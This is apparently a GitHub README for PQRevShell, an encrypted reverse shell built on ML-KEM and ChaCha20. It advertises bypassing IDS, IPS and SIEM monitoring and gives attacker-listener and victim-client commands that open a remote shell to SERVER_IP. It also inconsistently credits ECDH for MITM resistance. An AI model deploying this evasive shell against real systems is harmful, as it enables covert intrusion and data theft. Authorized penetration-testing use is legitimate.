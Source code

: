 Work In Progress WIP.
All credits to OusCyb3rH4ck.

# PQRevShell
PQRevShell is a **secure reverse shell tool** that utilizes **ML-KEM (aka Kyber)** for secure key exchange and **Chacha20 encryption** to ensure encrypted communication between a client and a server. This project demonstrates a robust and secure way to establish a command execution environment, where commands issued by the server are securely transmitted to the client and executed, with responses being sent back in an encrypted format.

By leveraging **ML-KEM + HKDF** for key exchange and **Chacha20 encryption**, this tool is designed to bypass traditional security systems such as **Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), and Security Information and Event Management (SIEM)** systems, making it a powerful tool for penetration testing in environments with strict monitoring.

### **Key Features:**
- **ML-KEM Key Exchange:** Post-Quantum Secure key exchange using ML-KEM to prevent Man-in-the-Middle (MITM) attacks.
- **HKDF Key Derivation:** Derives a secure Chacha20 key and IV using HMAC-based Key Derivation Function (HKDF).
- **Chacha20 Encryption:** Encrypts all communication between the client and server.
- **File exchange:** File upload/download from the client.
- **Client-Server Architecture:** Reverse shell functionality with encrypted command execution.
- **Resistance to MITM:** ECDH ensures that even if an attacker intercepts the communication, they cannot decrypt the data.
- **Bypass of IDS/IPS/SIEM:** Chacha20 encryption hides the command and control traffic, making it difficult to detect by network monitoring systems.

### **How It Works:**
1. **Key Exchange:**
   - The server and client generate their own ML-KEM key pairs (private and public keys).
   - They exchange their public keys and compute a shared secret.
   - The shared secret is used to derive a secure Chacha20 key and IV using HKDF.

2. **Encrypted Communication:**
   - All commands and responses are encrypted with Chacha20.
   - The server sends encrypted commands to the client, which decrypts and executes them.
   - The client sends the encrypted output back to the server.

3. **Secure Execution:**
   - The client executes commands in a secure environment and returns the encrypted output to the server.

## **Installation**
1. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/JuanPardos/PQRevShell
   cd PQRevShell
   ```

3. Make the scripts executable (Optional):
   ```bash
   chmod +x client.py server.py
   ```

## **Usage**

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p PORT
```

### **Security Features**
- **ML-KEM Key Exchange:** Prevents MITM attacks by securely exchanging keys.
- **HKDF Key Derivation:** Ensures unique and secure keys for each session.
- **Chacha20 Encryption:** Encrypts all communication to protect against eavesdropping.
- **No Manual Key Sharing:** Keys are exchanged securely without manual intervention.

### **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

### **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

### **Author**
- [OusCyb3rH4ck](https://github.com/OusCyb3rH4ck)
